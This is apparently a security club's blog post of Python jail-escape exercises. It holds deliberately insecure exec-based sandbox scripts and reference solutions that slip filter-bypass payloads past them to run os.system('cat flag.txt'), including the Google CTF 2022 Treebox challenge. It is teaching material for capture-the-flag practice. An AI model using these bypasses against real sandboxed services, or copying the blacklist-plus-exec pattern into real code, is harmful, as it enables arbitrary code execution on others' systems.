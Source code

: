 ```yaml
---
layout: post
title: "Python Jail Escapes"
categories: learning
author: Liam
---
```


At our weekly meetings we had a talk about Python jail escapes, aka. getting around restrictions that make it hard to execute `os.system('cat flag.txt')`. In the talk we went through challenges, that we present here as exercises to practice. Starting very simple and then digging more and more into python internal.

Solve them yourself, by copying the script and providing input that executes `os.system('cat flag.txt')`. Afterwards you can compare your solution to the one we had in mind, there are always different ways. For some reference solution it is relevant to mention, that we used Python 3.11.2.

Leaning about Python Jail Escapes it is helpful to ask questions like:
* How are modules and classes implemented in Python?
* What are frozen modules?
* How does syntactic sugar get replaced? You may start at `import someting` or `array[5]`.
* How many ways are there to call a function/method other than `lmao()`/`lm.oa()`?

## Happens way too often

```python
import string

code = input('Your scientific computation: ')

code = ''.join([c for c in code if c in string.printable])

forbidden = ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins']
for f in forbidden:
    code = code.replace(f, '')
exec(code)
```

<details>
<summary>Reference Solution</summary>

No need for recursivity. This is Python not Haskell.

<code>imosport ooss; ooss.sysostem('cat flag.txt')</code>
</details>

## Correct, or jail

```python
code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins']:
    if keyword in code:
        print('You are jailed!')
        break
else:
    exec(code)
```

<details>
<summary>Reference Solution</summary>

There is a `for/else` in Python???!!? Ah, and obviously:

<code>globals()['__built'+ 'ins__'].__dict__['__im' + 'port__']('o' + 's').__dict__['sys' + 'tem']('cat flag.txt')</code>
</details>

## Only causing trouble

```python
import string

code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open',
                'system', 'os', 'builtins', '+']:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code, {'__builtins__': {}})
```

<details>
<summary>Reference Solution</summary>

Based solution:

<code>().__class__.__base__.__subclasses__()[140].__init__.__globals__[''.join(['sy', 'stem'])]('cat flag.txt')</code>
</details>

## Ahhhhhhhhhh, no more fun for you

```python
import string

code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open',
                'system', 'os', 'builtins', '+', '"', "'"]:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code, {'__builtins__': {}})
```

<details>
<summary>Reference Solution</summary>

Are there simpler solution to construct a string? Yes. Does this one get you the flag? Also, yes. So why are you asking?

<code>().__class__.__base__.__subclasses__()[140].__init__.__globals__[().__str__()[:0].join([i.to_bytes().decode() for i in [115, 121, 115, 116, 101, 109]])](().__str__()[:0].join([i.to_bytes().decode() for i in [99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116]]))</code>
</details>

## Now it is over, isn't it?

```python 
code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins',
                '.', '[', ']']:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code)
```

<details>
<summary>Reference Solution</summary>

it is not over until you remove getattr

<code>getattr(getattr(getattr(globals(), 'get')('__bu' + 'iltins__'), '__imp' + 'ort__')('o' + 's'), 'sys' + 'tem')('cat flag?txt')</code>
</details>




## Treebox

From [Google Capture The Flag 2022](https://ctftime.org/event/1641/)

```python
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

<details>
<summary>Reference Solution</summary>

Our solution, specifically the solution of Benedikt, looked something along the lines of:

<code>
class NotACall(Exception):
    __add__ = exec


try:
    raise NotACall
except NotACall as e:
    e + 'import os; os.system("cat flag.txt");exit(0)'
--END
</code>
</details>

## Treebox is no match for Robin

This a modified version of the treebox challenge, here to point out a particular way to solve the challenge.

```python
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if '(' in line or ')' in line:
        print("ERROR: Parentheses are not allowed")
        exit(1)
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
else:
    print("ERROR: Code is not safe")
    exit(1)
```

<details>
<summary>Reference Solution</summary>

Also, no match for Robin, we yet have to find anything that is.

Solution by Robin Jadoul:
<code>
# https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
@exec
@input
class X:
    pass
--END
</code>
</details>
